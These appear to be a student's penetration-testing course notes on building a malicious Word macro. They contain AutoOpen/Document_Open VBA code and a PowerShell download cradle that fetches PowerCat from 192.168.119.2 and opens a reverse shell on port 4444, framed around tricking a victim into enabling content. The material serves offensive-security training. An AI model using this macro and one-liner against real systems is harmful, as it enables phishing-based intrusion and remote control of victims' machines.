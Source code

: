 Next, we'll click on the _Save_ icon in the _Microsoft Visual Basic for Applications_ window and close the document
+ After we re-open it, we are presented with a security warning indicating that macros have been disabled
+ To run our macro, we'll click on _Enable Content_
![[Pasted image 20230919155548.png]]
+ After we click on _Enable Content_ a PowerShell window appears
![[Pasted image 20230919155554.png]]
+ Above shows, the PowerShell window was started through our macro

In a real-world assessment, our victim must click on _Enable Content_ to run our macros, otherwise our attack will fail
+ In enterprise environments, we can also face a situation where macros are disabled for Office documents in general
+ Fortunately for us, macros are commonly used (and allowed) in most enterprises

Let's wrap this section up by extending the code execution of our current macro to a reverse shell with the help of <mark style="background: #D2B3FFA6;">PowerCat</mark>
+ We'll use a base64-encoded PowerShell download cradle to download PowerCat and start the reverse shell
+ The encoded PowerShell command will be declared as a _String_ in VBA

We should note that VBA has a 255-character limit for literal strings and therefore, we can't just embed the base64-encoded PowerShell commands as a single string
+ This restriction does not apply to strings stored in variables, so we can split the commands into multiple lines (stored in strings) and concatenate them

To do this, we'll click on the _Macros_ element in the _View_ tab, select _MyMacro_ in the list and click on _Edit_ to get back to the macro editor
+ Next, we'll declare a string variable named _Str_ with the _Dim_ keyword, which we'll use to store our PowerShell download cradle and the command to create a reverse shell with PowerCat
+ The following listing shows the declaration of the variable and the modified line to run the command stored as a string in the variable
``` VBA
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    CreateObject("Wscript.Shell").Run Str
End Sub
```

Next, we'll employ a PowerShell command to download PowerCat and execute the reverse shell
+ We'll encode the command with base64 to avoid issues with special characters as we've dealt with in previous Modules
+ The following listing shows the PowerShell command before base64-encoding:
``` PowerShell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
```
